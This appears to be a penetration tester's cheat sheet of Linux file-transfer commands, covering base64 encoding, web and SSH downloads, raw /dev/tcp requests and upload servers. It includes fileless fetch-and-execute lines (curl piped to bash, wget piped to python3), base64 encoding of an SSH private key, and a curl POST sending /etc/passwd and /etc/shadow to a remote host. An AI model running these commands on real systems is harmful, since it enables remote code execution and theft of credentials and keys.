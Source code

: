 ### Base 64 Encoding 
```shell
md5sum filename
```
Encoding
```shell
cat id_rsa |base64 -w 0;echo
```
Decode
```shell
echo -n '<base 64 value>' | base64 -d > id_rsa
```

# Downloads 
## Web downloads 
```shell
wget <url> -O <output>
```
```shell
curl -o <output> <url>
```
### Fileless Attacks 
```shell
curl <url> | bash
```

```shell-session
wget -qO- <url> | python3
```

### Download with Bash (/dev/tcp)
Connect to target
```shell
exec 3<>/dev/tcp/<ip>/<port>
```
HTTP GET Request 
```shell
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
Print the response
```shell
cat <&3
```
## SSH downloads 
Enable SSH Server 
```shell
sudo systemctl enable ssh
```
SCP
```shell
scp <user>@<ip>:<link to file> <output> 
```


# Uploads
### Method 1 
Python web server 
```shell
sudo python3 -m pip install --user uploadserver
```
Self Signed certificate 
```shell
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
Create a new directory to host the certificate
```shell
mkdir https && cd https

sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```
Upload Files 
```shell
curl -X POST https://<ip>/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
### Method 2 
#### Alternate Web servers on host 
Python3
```shell
python3 -m http.server
```
Python 2.7 
```shell
python2.7 -m SimpleHTTPServer
```
PHP
```shell
php -S 0.0.0.0:8000
```
Ruby 
```shell
ruby -run -ehttpd . -p8000
```
Download
```shell
wget <ip>:<port>/<file>
```
### SCP
```shell
scp <file> <user>@<ip>:<link to file>
```

